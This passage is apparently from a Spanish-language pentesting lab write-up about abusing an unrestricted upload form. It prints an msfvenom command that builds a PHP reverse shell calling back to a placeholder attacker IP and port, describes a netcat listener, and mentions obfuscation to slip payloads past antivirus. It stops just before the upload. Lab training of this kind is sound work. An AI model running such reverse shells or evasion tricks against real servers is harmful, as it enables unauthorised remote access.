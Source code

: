 Podemos probar este formulario para ver que en efecto cualquier archivo que subamos, sin importar su extensión. En este caso ya lo he probado y funciona, por ende no voy a cubrir esa mini prueba dado que esta práctica ya esta bastante larga.

#### Creando nuestro reverse shell con msfvenom

{% hint style="warning" %}
**NOTA:** En un escenario real muchos de estos payloads que creamos pueden ser fácilmente detectados por el Firewall y Antivirus que estén instalados en el servidor. En este caso como estamos practicando en un laboratorio de pruebas no tendremos ese problema e incluso de tenerlos podemos deshabilitarlos. Para mitigar esto podemos hacer uso de técnicas de ofuscación para lograr subirlos sin que sean detectados.
{% endhint %}

Veamos rápidamente como podemos crear nuestro reverse shell usando **`msfvenom`**. No usaremos **`metasploit`**, directamente intentaremos conectar el reverse shell a nuestro listener de **`netcat`** en la terminal de Kali.

```text
msfvenom -p php/reverse_php LHOST=IP_VM_ATAQUE LPORT=PUERTO_DESEADO -f raw > nombre_delShell.php
```

En mi caso:

![](../.gitbook/assets/image%20%28156%29.png)

Ahora que ya tenemos nuestro payload, dejamos nuestro listener preparado:

![](../.gitbook/assets/image%20%28155%29.png)

Con todo listo subimos nuestro payload:
